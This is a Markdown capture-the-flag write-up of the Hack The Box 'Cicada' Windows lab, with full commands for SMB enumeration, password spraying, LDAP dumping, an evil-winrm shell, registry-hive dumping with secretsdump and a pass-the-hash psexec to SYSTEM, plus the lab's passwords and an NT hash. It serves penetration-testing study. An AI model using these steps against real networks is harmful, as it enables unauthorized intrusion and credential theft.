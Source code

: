 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - Null‑session SMB enumeration 🗂️  
  - Password spray via `netexec` 🔧  
  - LDAP dump with `ldapdomaindump` 📋  
  - SMB share discovery & credential harvest 🔍  
  - WinRM shell with `evil-winrm` 🪓  
  - Priv‑Esc: `SeBackupPrivilege` → `reg save` → `impacket‑secretsdump` → Pass‑the‑Hash  

---

## 🕵️ Recon

#### fast full-port + default scripts
```bash
sudo nmap -sC -sV -p- 10.10.11.35 -oA nmap/cicada
```

#### check null‑session SMB shares

```bash
nxc smb 10.10.11.35 -u guest -p '' --shares
```

- **[SMB](SMB)** (445) – null‑session allows listing `HR` share
- **[Kerberos](KERBEROS)** (88), **LDAP** (389/636/3268/3269), **WinRM** (5985)

---

## 💥 Initial Foothold

1. **SMB null‑session → HR share**  
```bash
smbclient //10.10.11.35/HR -U guest
```

```powershell
get "Notice from HR.txt"
```
3. **Notice from HR.txt** contains default password  
   ```
   Cicada$M6Corpb*@Lp#nZp!8
   ```
4. **RID‑brute** to enumerate users  
   ```bash
   nxc smb 10.10.11.35 -u guest -p '' --rid-brute > rids.txt
   awk -F'\\\\|\\(' '{print $2}' rids.txt | tail -n +5 > users.txt
   ```
5. **Password spray** against user list  
```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' \
     --continue-on-success
```
   → **michael.wrightson** authenticated ✅

6. **LDAP dump** with valid creds  
```bash
ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -o ldapdump
```
7. **Found `david.orelious` password** in LDAP attribute →  
   `aRt$Lp#7t*VQ!3`

---

## 🔍 Pivot & Credential Harvest

1. **SMB with `david.orelious`**  
```bash
smbclient //10.10.11.35/DEV -U david.orelious
```

```powershell
get Backup_script.ps1
```
3. **Backup_script.ps1** reveals **`emily.oscars:Q!3@Lp#M6b*7t*Vt`**  
4. **WinRM shell as Emily**  
   ```bash
   evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
   ```
5. **Grab user flag**  
   ```powershell
   type C:\Users\emily.oscars.CICADA\Desktop\user.txt
   # => d333d*********************
   ```

---

## 🚀 Privilege Escalation

1. **Check Emily’s privileges**  
```powershell
whoami /priv
```
```
# SeBackupPrivilege          Enabled
# SeRestorePrivilege         Enabled
```

2. **Dump SAM & SYSTEM hives**  
   ```powershell
   mkdir C:\temp
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```
3. **Download hives to Kali**  
   ```powershell
   download C:\temp\sam.hive
   download C:\temp\system.hive
   ```
4. **Extract NT hashes**  
   ```bash
   impacket-secretsdump -sam sam.hive -system system.hive local
   # Administrator:500:…:2b87e7c93a3e8a0ea4a581937016f341
   ```
5. **Pass‑the‑hash as Administrator**  
   ```bash
   impacket-psexec cicada.htb/Administrator@10.10.11.35 \
     -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
   ```
6. **Get SYSTEM shell & root flag**  
   ```powershell
   type C:\Users\Administrator\Desktop\root.txt

   ```

---

## 🛠 Tools & References

- **SMB & Kerberos**: `nmap`, `netexec`, `smbclient`  
- **LDAP dump**: [ldapdomaindump](https://github.com/BloodHoundAD/ldapdomaindump)  
- **WinRM**: [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)  
- **Priv‑Esc**: [`impacket`](https://github.com/SecureAuthCorp/impacket)  